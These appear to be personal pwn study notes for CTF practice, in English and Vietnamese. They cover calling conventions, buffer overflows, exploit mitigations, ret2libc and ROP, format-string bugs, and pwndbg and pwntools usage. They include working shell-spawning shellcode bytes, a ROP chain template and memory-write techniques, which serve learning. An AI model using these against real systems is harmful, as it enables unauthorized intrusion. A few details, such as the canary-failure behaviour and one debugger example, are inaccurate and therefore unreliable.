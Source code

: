 # 📓 PWN STUDY NOTES

<details>
<summary><h1>🧠 Computer Architecture + Operating System</h1></summary>
<p>

## Registers

| Register | Description |
|----------|-------------|
| `rax`    | Return value of a function → `rax`, `eax`, `ax`, `ah`, `al` (64/32/16/8/8) |
| `rbx`    | Base register (no specific use in x64) |
| `rcx`    | Counter register for loops |
| `rdx`    | Data register |
| `rsi`    | Source index (source in data movement) |
| `rdi`    | Destination index (destination in data movement) |
| `rsp`    | Stack pointer |
| `rbp`    | Stack base pointer |

---

## User-space function calls (System V i386 ABI)
- **Arguments:** pushed **right → left** on the stack.
  At callee entry: `[esp+4]=arg1`, `[esp+8]=arg2`, …
- **Return:** `eax` (or `edx:eax`), FP in `st(0)`
- **Callee-saved:** `ebx`, `esi`, `edi`, `ebp` (and `esp`)
- **Caller-saved:** `eax`, `ecx`, `edx`
- **Stack alignment:** ABI baseline 4 bytes; SIMD code may realign to 16 bytes in prologue.

---

## Linux i386 **syscall** convention (`int 0x80`)
- **`eax`** = syscall number.
- **Args 1–6:** `ebx`, `ecx`, `edx`, `esi`, `edi`, `ebp`
- **Return:** `eax` (≥0 success; **negative** = `-errno`)
- Other regs not guaranteed preserved.

---

## Linux x86-64 **syscall** convention (`syscall` instruction)

- **`rax`** — syscall number.
- **Arguments (1–6):** `rdi, rsi, rdx, r10, r8, r9`  
- **Return value:** `rax` (≥ 0 on success; **negative** value = `-errno`) 
- Other registers are preserved per usual rules (`rbx, rbp, r12–r15` are callee-saved in user space).

---

## 🧱 MEMORY STRUCTURE OF LINUX PROCESS

- **Code Segment (.text)**: executable code (r--x)
- **Data Segment**: initialized global/static vars (rw-)
- **BSS Segment**: uninitialized global/static vars (rw-)
- **Heap Segment**: dynamic memory allocation (rw-)
- **Stack Segment**: local vars, return addresses (rw-)
- **Extra Segment**: `fs` and `gs` (used by OS)

---

## ⚙️ ASSEMBLY BASICS

### 🔹 Opcodes

- **Data Transfer**: `mov`, `lea`
- **Arithmetic**: `inc`, `dec`, `add`, `sub`
- **Logic**: `and`, `or`, `xor`, `not`
- **Comparison**: `cmp`, `test`
- **Branch**: `jmp`, `je`, `jg`
- **Stack**: `push`, `pop`
- **Procedure**: `call`, `ret`, `leave`
- **System call**: `syscall`

### 🔹 Memory Operands

- `QWORD PTR [addr]`: 8 bytes
- `DWORD PTR [addr]`: 4 bytes
- `WORD PTR [rax]`: 2 bytes
- `BYTE PTR [rax]`: 1 byte

<h2> View more in: </h2>

- [Computer Architecture](https://www.geeksforgeeks.org/computer-organization-architecture/computer-organization-and-architecture-tutorials/)
- [Assembly](https://www.tutorialspoint.com/assembly_programming/index.htm)
- [OS](https://www.tutorialspoint.com/operating_system/index.htm)

</p>
</details>


<details>
<summary><h1>📚 Summary of knowledge about pwn</h1></summary>
<p>

## 🐚 SHELLCODE

### 📌 Mục tiêu
Call `execve("/bin/sh", NULL, NULL)` to get shell.

---

### 🧬 Syscall Convention (x86_64)

| Register | Role |
|----------|------|
| `rax`    | Syscall number (`0x3b` for `execve`) |
| `rdi`    | arg0: filename (`/bin/sh`) |
| `rsi`    | arg1: argv (NULL) |
| `rdx`    | arg2: envp (NULL) |

---

### 🔩 Shellcode (x86_64)

```asm
mov rax, 0x68732f6e69622f   ; "/bin/sh" in hex
push rax
mov rdi, rsp                ; rdi = pointer to "/bin/sh"
xor rsi, rsi                ; rsi = NULL
xor rdx, rdx                ; rdx = NULL
mov rax, 0x3b               ; rax = syscall number for execve
syscall
```
bytes
`\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05`

---

### 🔩 Shellcode (x86)

```asm
xor eax, eax
xor ecx, ecx
xor edx, edx
add eax, 0x0b               ; syscall number for execve
xor ebx, ebx
push ebx
push 0x68732f2f             ; "//sh"
push 0x6e69622f             ; "/bin"
mov ebx, esp
int 0x80                    ; syscall
```
bytes
`\x31\xC0\x31\xC9\x31\xD2\x83\xC0\x0B\x31\xDB\x53\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80`

## 💥 BUFFER OVERFLOW

### 🧵 Input functions that can overflow

#### `gets(buf)` — **do not use (removed in C11)**
- **No input length limit.**
- Reads until `'\n'`, **does not store** the newline.
- Always appends `'\0'`.
- **Extremely unsafe** → classic stack overflow.

#### `scanf("%s", buf)`
- **No input length limit.**
- Reads until `" "`, `\n`, `\t`.
- Behaves like `gets()`.

#### `scanf("%[width]s", buf)`
- Read maximum `width` characters.
- If `width > sizeof(buf) - 1` → **may overflow**.
- Does not guarantee string **null-termination** (`\0`).

#### `fgets(buf, len, stream)`
- Read maximum `len - 1` characters, always appends `\0`. If input is longer, the excess remains in `stdin`.
- If input < `len`, the remaining part is filled with `\0`.
- If input = `len`, the last byte is discarded and `\0` is added.
- May **lose data**, e.g.: 30-byte buffer → can only store 29 characters if `len = 30`.
- If there's space, store `"\n\0"`.

#### `read(fd, buf, len)`
- Read maximum `len` bytes into `buf`.
- Returns the number of bytes read (≥ 0) or **negative** value on error.
- Does not guarantee null-termination (`\0`).
- Safe only if `len` is **less than or equal** to the sizeof(`buf`).

---

### 📌 Core Overflow types

- **Stack Overflow**: overwrite data on stack (return address, canary, ...).
- **Heap Overflow**: overwrites adjacent heap chunks/objects or allocator metadata.
- **Global/Static Overflow**: overwrites global variables or static data(`.data/.bss`).
- **Off-by-one**: overwrite one byte beyond buffer boundary, often affecting adjacent data.
- **Out-of-bounds**: access memory outside the allocated buffer.
- **Integer Overflow/Underflow**: occurs when an arithmetic operation produces a value outside the representable range of the integer type.

## 🛡️ CANARY (Stack Smashing Protector)

### 🧠 Mục đích
- **Chống tấn công buffer overflow** bằng cách phát hiện ghi đè lên vùng nhớ nhạy cảm.
- Nếu canary bị ghi đè → chương trình sẽ **Segmentation fault** và dừng ngay lập tức.

---

### 🔐 Cấu trúc
- Được lưu tại: `[rbp - 0x8]`
- Là một chuỗi **8 bytes ngẫu nhiên**, **byte đầu luôn là `\x00`**.

## 🔒 NX & ASLR

### 🚫 NX (No-eXecute)
- **Chống Shellcode**: Ngăn chặn thực thi code ở vùng bộ nhớ không được đánh dấu là thực thi.

---

### 🎲 ASLR (Address Space Layout Randomization)
- **Mục tiêu**: Phân bổ ngẫu nhiên địa chỉ cho stack, heap, shared libraries, ... mỗi khi chạy binary.
- **Lợi ích**: Gây khó khăn cho việc đoán địa chỉ khi tấn công.

---

### 🔗 RELRO (RELocation Read-Only)
- **no RELRO**: Cho phép ghi đè lên GOT (Global Offset Table).
- **partial RELRO**: GOT được chuyển thành chỉ đọc sau khi khởi tạo, nhưng một số phần vẫn có thể bị tấn công.
- **full RELRO**: Toàn bộ GOT được bảo vệ, **không thể ghi đè**.

---

### 🔧 Hook Overwrite
- **Ý tưởng**: Bypass RELRO bằng cách ghi đè các con trỏ hàm (như `malloc()`, `free()`, `realloc()`) với địa chỉ của hàm tùy ý nhằm thực thi code độc hại.

## 📌 PIE & RELRO

### 🔀 PIE (Position-Independent Executable)
- **Mục tiêu:** Thực thi binary với địa chỉ load thay đổi ( base address), làm cho việc exploit trở nên khó khăn hơn.
- **Hoạt động:** Mỗi lần chạy, binary sẽ được load vào một địa chỉ ngẫu nhiên, khiến cho việc đoán địa chỉ trở nên phức tạp.

---

### 🔄 PIC (Position-Independent Code)
- **Mục tiêu:** Cho phép code chạy đúng ở bất kỳ vị trí nào trong bộ nhớ.
- **Đặc điểm:** 
  - Không sử dụng địa chỉ tuyệt đối.
  - Phụ thuộc vào các địa chỉ tương đối (dựa trên giá trị của `RIP` trên x86_64) để thực hiện các phép tính địa chỉ.
- **Lợi ích:** Tăng tính linh hoạt và an toàn khi chương trình được load ở các địa chỉ khác nhau.

---

### 🔗 RELRO (RELocation Read-Only)
- **Bảo vệ:** Ngăn chặn ghi đè lên bảng địa chỉ (GOT) nhằm bảo vệ các hàm quan trọng khỏi bị khai thác.
- **Các cấp độ bảo vệ:**
  - **No RELRO:** GOT có thể bị ghi đè, dễ bị tấn công.
  - **Partial RELRO:** Một số phần của GOT được chuyển sang chế độ read-only sau khi khởi tạo.
  - **Full RELRO:** Toàn bộ GOT được bảo vệ hoàn toàn, rất khó bị khai thác.

## 🔄 R2L-ROP

### 📌 Khái niệm cơ bản

- **r2l (Return-to-libc):** Sử dụng lệnh `ret` để gọi hàm có sẵn trong libc, ví dụ: `system("/bin/sh")`.
- **ROP (Return Oriented Programming):** Sử dụng chuỗi các gadget (lệnh `ret` kết hợp với các lệnh nhỏ) để điều khiển luồng thực thi của chương trình.
- **GOT (Global Offset Table):** Bảng chứa địa chỉ của các hàm trong libc (ví dụ: `puts`).
- **PLT (Procedure Linkage Table):** Sử dụng để gọi các hàm qua GOT.
- Call a func : func_plt -> func_got -> func_libc
---

### 🔧 Các chi tiết kỹ thuật

- **Padding Return Address:** 
  - Return address được cấp 16 bytes.
  - Thêm lệnh `ret` trước gadget như `pop rdi; ret` để tránh lỗi do `movaps`.

- **Xác định địa chỉ hàm:**
  - Thông thường, `system` được tính bằng công thức:  
    `system = read - 0xc3c20`  
    (tham khảo `readelf -s libc.so.6 | grep "read@"` để biết offset chính xác)

- **Tìm ROP Gadget:**
  - Sử dụng lệnh:  
    ```bash
    ROP gadget --binary filename | grep "gadget"  
    #tìm ngay trong process
    pop_rdi_ret = r.find_gadget(['pop rdi', 'ret'])[0] #tìm các thanh ghi ex: pop rdi ; ret
    ```  
    ví dụ: tìm gadget `pop rdi; ret` để thiết lập đối số cho `system`.  
    quay lại `main` để khai thác tiếp (`e.symbols['main']`)

---

### 📌 Ví dụ trên x64

1. **Leak địa chỉ libc:**
   - Sử dụng hàm như `puts` để in ra địa chỉ được lưu trong GOT.
   - Ví dụ: dùng gadget `pop rdi; ret` để đưa địa chỉ của `puts@got` vào rdi và sau đó gọi `puts(puts@got)`.
   - Tính toán:
     - `libc_base = leaked_address - puts_offset (libc.symbols['puts'])`

2. **Xác định địa chỉ hàm `system` và chuỗi `/bin/sh`:**
   - `system = libc_base + system_offset`
   - `binsh = libc_base + offset_of_bin_sh`

3. **Triển khai ROP:**
   - Sử dụng gadget `pop rdi; ret` để thiết lập đối số cho hàm `system`.
   - ROP mẫu:  
     ```python
     p64(pop_rdi_ret) + p64(binsh) + p64(system)
     ```

---

### 📌 Ví dụ trên x86

Quy trình tấn công trên x86 có thể bao gồm:
1. Đọc dữ liệu vào writable area: `read(0, writableArea, len("/bin/sh"))`
2. Ghi địa chỉ của read_got ra màn hình: `write(1, read_got, len(str(read_got)))`
3. Đọc địa chỉ mới từ read_got: `read(0, read_got, len(str(read_got)))`
4. Gọi system với writableArea chứa "/bin/sh": `system(writableArea)`

## 📏 OUT OF BOUNDS

- **Out of Bounds (OOB):** Xảy ra khi chỉ số dùng để truy cập phần tử của mảng âm hoặc vượt quá độ dài của mảng.
- **Truy cập phần tử mảng:**  
  ```c
  &arr[k] = arr + sizeof(elem) * k

## 🔠 FORMAT STRING VULNERABILITY (FSB)

### Cách Hoạt Động của `printf`
- **`printf("%s", input)`**: In ra chuỗi được truyền vào biến `input`.
- **`printf("%s")`**: Nếu không có đối số, sẽ in ra giá trị tại địa chỉ thứ 1 trên stack.

### Chỉ Định Tham Số với `$`
- **`printf("%30$s")`**: In ra giá trị của đối số thứ 30 trên stack.
- **`printf("%6$p")`**: In ra địa chỉ (theo dạng hex có `0x`) của đối số thứ 6 trên stack.
- **`printf("%6$x")`**: In ra giá trị hex của đối số thứ 6 trên stack, không kèm `0x`.

### Ứng Dụng của Format String
- **Leak thông tin:**  
  Sử dụng các format specifier như `%p`, `%x`, `%d`, `%*\n` để leak các giá trị trên stack (địa chỉ, giá trị số, ...).
- **Đọc dữ liệu vùng nhớ:**  
  Sử dụng `%s` để in ra chuỗi nằm tại địa chỉ được tham chiếu từ stack (ví dụ: đọc flag).
- **Ghi đè bộ nhớ:**  
  Sử dụng `%n`, `%hn`, `%hhn` để ghi số lượng ký tự đã in ra vào một địa chỉ cụ thể, cho phép thay đổi giá trị của biến trong bộ nhớ.

### Phân Biệt 32-bit và 64-bit
- **32-bit:** Các đối số thường được in trực tiếp từ stack.
- **64-bit:**  
  - 5 đối số đầu tiên được truyền qua các thanh ghi: `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`.
  - Từ đối số thứ 6 trở đi, các giá trị được lấy từ stack (ví dụ: `rsp`, `rsp+0x8`, `rsp+0x10`, `rsp+0x18`).

</p>
</details>

<details>
<summary><h1>🐞 Pwndbg</h1></summary>
<p>

[Pwndbg](https://github.com/pwndbg/pwndbg) is an extension for GDB that provides many useful commands for analyzing and exploiting binaries.

---

## 🔍 Some useful commands

- **`checksec`**: show security features of the binary:
  - **Canary:** anti buffer overflow (often set at `[rbp-0x8]`).
  - **NX (Non-Executable):** prevents execution of shellcode on the stack.
  - **PIE (Position Independent Executable):** Binary is loaded at a random address.
  - **RELRO (RELocation Read-Only):** Checks the protection feature of the address table (GOT). (anti GOT overwrite)

- **`start`**: run the program and stop right at the beginning of the `main` function, helping you quickly start debugging.

- **`disass <func>` (disassemble)**: disassemble the specified function.

- **`vmmap`**: show virtual memory map of the process, including regions: stack, heap, libraries, and other segments, also displays their permissions, size, offsets and file paths.

- **`run`**: execute the program from the beginning.

- **`b *<address>` (break)**: set a breakpoint at a specific address.
  - *Ex:* `b *0x400123`

- **`del <breakpoint>` (delete)**: delete the specified breakpoint.

- **`c` (continue)**: continue executing the program until the next breakpoint or when the program stops.

- **`finish`**: continue executing until the current function ends.

- **`si` (step into)**: execute the next instruction and step into any functions (if present).

- **`ni` (next instruction)**: execute the next instruction but do **not** step into any functions.

- **`i` (info)**: show information about the program state, for example:
  - `i r` (info registers): Information about the registers.
  - `i b` (info breakpoints): List of breakpoints.

- **`k` (kill)**: kill the debugging process.

- **`bt` (backtrace)**: show the call stack at the time of stopping.

- **`x` (examine)**: examine memory at a specific address.
  - Form: `x/<count><format> <address>`

  | Format | Size |
  |--------|------|
  |`x` (hexadecimal) | `b` (Byte, 1 bytes) |
  |`o` (octal) | `h` (Halfword, 2 bytes) |
  |`d` (decimal) | `w` (Word, 4 bytes) |
  |`u` (unsigned decimal) | `g` (Giant, 8 bytes) |
  |`s` (string) |  |
  |`t` (binary) |  |
  |`f` (float) |  |
  |`a` (address) |  |
  |`c` (character) |  |
  |`i` (instruction) |  |
  - *Ex:* `x/10wx 0x601000` show 10 words in hex format from address `0x601000`.

- **`tel` (telescope)**: show memory around the current instruction pointer, recursively explores addresses referenced by the memory to display their values.

- **`context`**: show an overview of the current state of the process, including registers, stack, and disassembly around the current address.

- **`heap`**: show detailed information about the heap, assisting in the analysis of heap-related vulnerabilities.

- **`vis_heap_chunks`**: visualize heap chunks, showing their metadata and contents.

- **`search`**: search for a string or byte sequence in memory.
  - *Ex:* `search "flag"` will find all locations containing the string `"flag"`.

- **`p &<variable>` (print)**: print the address of a specific variable.
  - *Ex:* `p &0x601000` will print the value at address `0x601000`.

- **`pattern_create`** and **`pattern_offset`**
  - Useful for creating and analyzing pattern strings (cyclic patterns) to find offsets during exploitation:
    - `pattern_create 100`: Create a pattern with 100 bytes.
    - `pattern_offset <value>`: Determine the position of the `<value>` in the pattern.

- **`set detach-on-fork off`**: tells GDB to not detach from the other processes after program calls `fork()/vfork()`. Both parent and child processes will stay under GDB as separate inferiors.
  - **`set follow-fork-mode child/parent`**: process that GDB will follow after a fork.
  - **`info inferiors`**: list tracked processes.
  - **`inferior <id>`**: switch to a specific inferior process.

</p>
</details>

<details>
<summary><h1>🧰 Pwntools</h1></summary>
<p>

[PwnTools](https://github.com/Gallopsled/pwntools) is a powerful library that supports binary mining and automation. Here are some basic commands and techniques:

---

### 🔹 Process & Remote

```python
from pwn import *

# Khởi tạo process cục bộ
p = process('./filename')        # Local binary

# Kết nối tới server từ xa
p = remote('address', port)      # Remote server

# Đính kèm gdb để debug (với API của pwntools)
gdb.attach(p, api=True)
```

### 🔹 ELF & Libc

```python
# Load binary và libc
e = ELF('./filename')
libc = ELF('./libc.so.6')

# Lấy địa chỉ từ PLT (Procedure Linkage Table)
plt_addr = e.plt['funcname']

# Lấy địa chỉ từ GOT (Global Offset Table)
got_addr = e.got['funcname']

# Lấy offset của hàm trong binary
func_offset = e.symbols['funcname']

# Lấy offset của hàm trong libc (chú ý: tên symbol phải chính xác)
libc_func_offset = libc.symbols['funcname']

# Tìm vị trí chuỗi "/bin/sh" trong libc
bin_sh = list(libc.search(b'/bin/sh'))[0]
```

### 🔹 Packing & Unpacking

```python
# Chuyển đổi số thành chuỗi byte dạng little-endian (64-bit và 32-bit)
packed_64 = p64(0xdeadbeef)
packed_32 = p32(0xdeadbeef)

# Giải nén chuỗi byte thành số nguyên (64-bit và 32-bit)
number_64 = u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')
number_32 = u32(b'\xef\xbe\xad\xde')
```

### 🔹 Sending and receiving data

```python
# Gửi dữ liệu
p.send(b'A')                      # Gửi 1 byte 'A'
p.sendline(b'A')                  # Gửi 'A' kèm newline

# Gửi dữ liệu sau khi nhận được prompt
p.sendafter(b'hello', b'A')
p.sendlineafter(b'hello', b'A')

#send and sendline
send: read
sendline: scanf, gets, fgets

# Nhận dữ liệu
data = p.recv(1024)               # Nhận tối đa 1024 byte
line = p.recvline()               # Nhận đến khi gặp newline
exact = p.recvn(5)                # Nhận chính xác 5 byte
until = p.recvuntil(b'hello')     # Nhận cho đến khi gặp chuỗi 'hello'
all_data = p.recvall()            # Nhận toàn bộ dữ liệu cho đến khi process kết thúc
```

### 🔹 Shellcode

```python
# Shellcode dạng bytes (x86)
shellcode_x86 = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9"
    b"\x31\xd2\xb0\x0b\xcd\x80"
)

# Shellcode dạng bytes (x86_64)
shellcode_x86_64 = (
    b"\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E"
    b"\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2"
    b"\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05"
)

# Tạo shellcode để spawn shell bằng shellcraft
code = shellcraft.sh()
machine_code = asm(code)          # Assembles shellcode thành machine code

# Ví dụ: sử dụng shellcode để cat file (lúc excerve bị band)
shellcraft.cat() có thể được sử dụng để in nội dung của file trong một số tình huống
```

### 🔹 Print & Interactive

```python
# Hiển thị thông tin ra console
log.info("Thông tin hữu ích" + info)

# Chuyển sang chế độ interactive để tương tác trực tiếp với process
p.interactive()
```

</p>
</details>

<details>
<summary><h1>🔗 Pwninit</h1></summary>
<p>

[Pwninit](https://github.com/io12/pwninit) is a tool for patching binary with provided libc and loader.

---
Commands:

- `pwninit`: tự patch file
- `mv file_patch file`: đổi tên

</p>
</details>

<details>
<summary><h1>🛠️ Other useful tools</h1></summary>
<p>

- [CyberChef](https://gchq.github.io/CyberChef/) : tool for analyzing and decoding data

- [LinuxSyscallReference(64bit)](https://syscalls64.paolostivanin.com/) : tool for looking up Linux syscalls and their parameters

- [Online Assembler/Disassembler](https://defuse.ca/online-x86-assembler.htm) : tool for assembling and disassembling x86/x64

</p>
</details>

<details>
<summary><h1>🔰 Learning resources</h1></summary>
<p>

- [Dream Hack](https://dreamhack.io/)

- [Heap](https://github.com/shellphish/how2heap)

- [Azeria Labs](https://azeria-labs.com/writing-arm-shellcode/)

- [JHTPwner](https://www.youtube.com/@JHTPwner)

- [Leonardo](https://www.youtube.com/@leonardo69696)

- [Naetw](https://github.com/Naetw/CTF-pwn-tips)

- [Nobody](https://github.com/nobodyisnobody)

</p>
</details>
